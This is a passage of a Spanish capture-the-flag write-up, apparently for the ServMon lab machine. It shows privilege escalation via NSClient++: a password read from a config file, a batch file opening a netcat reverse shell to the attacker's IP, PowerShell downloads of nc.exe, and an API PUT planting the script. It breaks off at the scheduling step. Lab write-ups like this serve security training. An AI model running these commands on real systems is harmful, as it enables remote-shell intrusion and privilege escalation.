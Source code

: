 
## Escalamiento de privilegios

Enumerando todos los directorios a los que el usuario tiene acceso encontramos una contraseña en el archivo `nsclient.ini`

```console
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

En exploit-db se encuentra un exploit de [NSClient++ 0.5.2.35 - Privilege Escalation](https://www.exploit-db.com/exploits/46802) así que vamos a seguir paso a paso lo que nos dice.

Creamos un archivo en batch llamado `evil.bat` con el siguiente código:

```batch
@echo off
c:\temp\nc.exe 10.10.14.43 443 -e cmd.exe
```

Primero nos ubicamos en el directorio donde están los archivos `nc.exe` y `evil.bat` y creamos un servidor http con python `python -m SimpleHTTPServer 80`

Luego enviamos los archivos `nc.exe`  y `evil.bat` a la máquina de ServMon.

```console
nadine@SERVMON C:\>powershell.exe wget "http://10.10.14.43/nc.exe" -outfile "c:\temp\nc.exe"

nadine@SERVMON C:\>powershell.exe wget "http://10.10.14.43/evil.bat" -outfile "c:\temp\evil.bat"
```

En el Kali creamos una sesión con netcat en el puerto 443 y lo dejamos en modo escucha

```console
root@kali:~# nc -lvnp 443
listening on [any] 443 ...
```

Leyendo la documentación de [NSClient++ API](https://docs.nsclient.org/api/) podemos hacer peticiones `PUT` pasándole los parámetros que deseamos. En este caso debemos agregar un script que llame al archivo `evil.bat`

```console
nadine@SERVMON C:\Temp> curl -k -i -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.exe 10.10.x.x 443 -e cmd.exe"
```

Luego agregamos el scheduler con intervalo de 1m para que llame al script que acabamos de crear cada minuto..

